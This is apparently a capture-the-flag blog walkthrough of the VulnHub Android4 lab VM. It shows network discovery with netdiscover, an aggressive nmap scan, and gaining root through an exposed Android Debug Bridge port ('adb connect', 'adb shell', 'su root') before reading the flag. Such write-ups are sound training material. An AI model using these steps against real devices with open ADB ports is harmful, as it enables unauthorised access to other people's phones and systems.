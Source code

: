 ```yaml
---
title: Android4 Walkthrough
author: alex
date: Wed 15 Nov 14:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
image:
  path: /assets/img/posts/android.png
  alt: Android Logo.
---
```


This is going to be a quick one - today I'm hacking into **Android4**! It is an Android-based VM you can compromise in a couple of simple steps using **ADB** or **PhoneSploit**. It is a good VM to start with **ADB**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation

## Tools Used

1. ADB

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
 Currently scanning: 192.168.10.0/16   |   Screen View: Unique Hosts                                              
                                                                                                                  
 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     08:00:27:2d:87:9b      1      60  PCS Systemtechnik GmbH                                         
 192.168.1.52    08:00:27:d6:b0:bb      1      60  PCS Systemtechnik GmbH
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.52
```

And the output...

```
PORT      STATE SERVICE VERSION

5555/tcp  open  adb     Android Debug Bridge device (name: android_x86; model: VirtualBox; device: x86)

8080/tcp  open  http    PHP cli server 5.5 or later
|_http-title: Deface by Good Hackers
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey: 
|   1024 b3:98:65:98:fd:c0:64:fe:16:d6:30:36:aa:2b:ef:6b (DSA)
|   2048 19:e2:9e:6c:c6:8d:af:4e:86:7c:3b:60:91:33:e1:85 (RSA)
|_  521 46:13:43:49:24:88:06:85:6c:75:93:73:b5:1d:8f:28 (ECDSA)

MAC Address: 08:00:27:D6:B0:BB (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 49.709 days (since Tue Sep 26 21:45:34 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Android, Linux; CPE: cpe:/o:linux:linux_kernel
```

Here we can see 3 ports but the one that should interest us is **port 5555**: the **ADB port**. Let's fire **ADB** and connect to our target:

```
adb connect 192.168.1.52
```

Now we are connected to the target. Let's open up a shell for us:

```
adb shell
```

And as we can see we get a shell! In order to compromise the VM we just need to change to the root user:

```
su root
```

That easy! Now we can `cat /data/root/flag.txt`:

**ANDROID{u_GOT_root_buddy}**
